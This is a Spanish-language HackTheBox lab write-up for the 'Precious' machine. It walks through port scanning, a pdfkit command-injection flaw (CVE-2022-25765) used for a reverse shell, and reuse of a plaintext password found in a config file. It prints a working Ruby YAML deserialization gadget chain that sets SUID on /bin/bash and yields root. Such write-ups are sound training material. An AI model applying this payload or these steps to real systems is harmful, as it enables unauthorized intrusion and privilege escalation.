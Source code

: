 ```yaml
---
title: HackTheBox - Precious
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE pdfkit 0.8.6 (CVE-2022-25765)', 'Information Leakage', 'YAML Deserialization']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Precious/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Precious Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **RCE pdfkit 0.8.6 (CVE-2022-25765), Information Leakage, Leak Information, YAML Deserialization**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Precious/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Precious/02-versions.png)

c. La página web transforma html a pdf pasándole una URL. Al interceptar la solicitud con Burp Suite veremos que software se emplea para esto

![](/assets/images/HTB/Easy/Precious/03-web.png)

* Buscamos por algún exploit para esta versión de [pdfkit 0.8.6](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Aquí nos explican los pasos para explotar un RCE

    ![](/assets/images/HTB/Easy/Precious/04-rce.png)

d. Nos enviamos una reverse shell

![](/assets/images/HTB/Easy/Precious/05-steps.png)

### Escalada de Privilegios 💹

a. Al explorar en el directorio del usuario **ruby** conseguiremos un fichero de configuración el cual contiene la credencial del usuario henry. Nos conectaremos por SSH

```bash
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
----------------------------------------------------------
❯ ssh henry@10.10.11.189
henry@10.10.11.189's password: Q3c1AqGHtoI0aXAYFH
bash-5.1$
```

b. Listamos nuestros privilegios a nivel de sudoers

```bash
bash-5.1$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

* Si inspeccionamos el script **update_dependencies.rb** veremos que carga un fichero **dependencies.yml** del directorio actual

    ```ruby
    def list_from_file
        YAML.load(File.read("dependencies.yml"))
    end
    ```

* Al buscar por una forma de escalar privilegios a través de un fichero yml nos encontramos con este [post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

c. Creamos un fichero **dependencies.yml** en nuestro directorio personal con el siguiente contenido

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

> Si ejecutamos `/opt/update_dependencies.rb` mientras estamos en nuestro directorio, el script usará el fichero **dependencies.yml** previamente creado, ya que, no se especifica una ruta absoluta de este fichero.
{: .prompt-info }

* Una vez ejecutemos el script, ya podremos acceder como root

    ```bash
    bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb
    <SNIP>
    bash-5.1$ bash -p
    bash-5.1# whoami
    root
    ```